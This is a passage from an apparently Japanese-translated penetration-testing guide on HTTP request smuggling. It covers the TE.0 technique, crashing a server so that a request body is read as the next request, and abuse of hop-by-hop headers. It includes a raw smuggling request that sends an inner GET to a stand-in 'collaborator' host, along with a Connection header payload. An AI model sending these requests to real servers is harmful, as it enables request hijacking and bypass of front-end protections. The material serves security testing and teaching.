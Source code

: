 #### TE.0シナリオ

* 前のものと同様ですが、TEを使用しています。
* 技術は[こちらで報告されています](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
* **例**:
```
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
```
#### ウェブサーバーの破壊

この技術は、**初期のHTTPデータを読み取る際にウェブサーバーを破壊する**ことが可能なシナリオでも有用ですが、**接続を閉じることなく**行います。この方法では、HTTPリクエストの**ボディ**が**次のHTTPリクエスト**として扱われます。

例えば、[**この書き込み**](https://mizu.re/post/twisty-python)で説明されているように、Werkzeugではいくつかの**Unicode**文字を送信することでサーバーが**破壊**されることが可能でした。しかし、HTTP接続が**`Connection: keep-alive`**ヘッダーで作成された場合、リクエストのボディは読み取られず、接続はまだオープンのままとなるため、リクエストの**ボディ**は**次のHTTPリクエスト**として扱われます。

#### ホップバイホップヘッダーによる強制

ホップバイホップヘッダーを悪用することで、プロキシに**Content-LengthまたはTransfer-Encodingヘッダーを削除させることができ、HTTPリクエストスムージングを悪用することが可能です**。
```
Connection: Content-Length
```
For **more information about hop-by-hop headers** visit:

{% content-ref url="../abusing-hop-by-hop-headers.md" %}
[abusing-hop-by-hop-headers.md](../abusing-hop-by-hop-headers.md)
{% endcontent-ref %}

## Finding HTTP Request Smuggling

HTTPリクエストスムーギングの脆弱性を特定するには、サーバーが操作されたリクエストに応答するのにかかる時間を観察するタイミング技術を使用することがよくあります。これらの技術は、特にCL.TEおよびTE.CLの脆弱性を検出するのに役立ちます。これらの方法に加えて、こうした脆弱性を見つけるために使用できる他の戦略やツールもあります。

### Finding CL.TE Vulnerabilities Using Timing Techniques
